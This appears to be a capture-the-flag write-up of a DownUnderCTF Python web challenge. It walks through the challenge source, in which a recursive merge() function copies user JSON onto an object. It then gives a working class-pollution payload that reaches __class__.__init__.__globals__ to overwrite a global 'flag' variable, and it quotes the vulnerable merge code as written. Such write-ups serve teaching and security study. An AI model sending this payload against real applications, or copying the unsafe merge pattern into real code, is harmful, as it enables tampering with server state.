

We are given the source code which is in Python. The website has a few functions involving account registration, profile viewing, blog posts and a dashboard. But one particular function is of interest, the feedback section.

The `/get_flag` endpoint checks a `flag` env variable to get the flag:
```python
@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

Looking at the `/save_feedback` endpoints function we can see this:
```python
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    # Because we want to dynamically grab the data and save it attributes we can merge it and it *should* create those attribs for the object.
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200


...


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


def save_feedback_to_disk(feedback_obj):
    feedback = ""
    for attr in dir(feedback_obj):
        if not attr.startswith('__') and not callable(getattr(feedback_obj, attr)):
            feedback += f"{attr}: {getattr(feedback_obj, attr)}\n"
    feedback_dir = 'feedback'
    if not os.path.exists(feedback_dir):
        os.makedirs(feedback_dir)
        print(f"Directory {feedback_dir} created.")
    else:
        print(f"Directory {feedback_dir} already exists.")
    files = glob.glob(os.path.join(feedback_dir, '*'))
    if len(files) >= 5:
        oldest_file = min(files, key=os.path.getctime)
        os.remove(oldest_file)
        print(f"Deleted oldest file: {oldest_file}")
    new_file_name = os.path.join(feedback_dir, f"feedback_{int(time.time())}.txt")
    with open(new_file_name, 'w') as file:
        file.write(feedback)
    print(f"Saved feedback to {new_file_name}")
    return True
```

Reading up on how the merge works, it turns out Python can have Prototype Pollution (I had my suspects from the challenge name also, good hint lads).

I find a [HackTricks Page](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution) on the topic (and learn about its absurdity...)



> Credits to [abdulrah33m](https://blog.abdulrah33m.com/prototype-pollution-in-python/) for this excellent image

Reading the "Polluting other glasses and global vars through `globals`" section gives us a good idea of a payload:
```python
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class User:
    def __init__(self):
        pass

class NotAccessibleClass: pass

not_accessible_variable = 'Hello'

merge({'__class__':{'__init__':{'__globals__':{'not_accessible_variable':'Polluted variable','NotAccessibleClass':{'__qualname__':'PollutedClass'}}}}}, User())

print(not_accessible_variable) #> Polluted variable
print(NotAccessibleClass) #> <class '__main__.PollutedClass'>
```

The normal post request looks like this:
```json
{"title":"title","content":"content","rating":"10","referred":"a"}
```

I then develop our own payload from how the normal post request looks.
```json
{"title":"title","content":"content","rating":"10","referred":"a","__class__": {"__init__":{"__globals__":{"flag":"true"}}}}
```

`/get_flag` now returns the flag, as we have modified the `flag` value to be true.

Flag: `DUCTF{_cl455_p0lluti0n_ftw_}`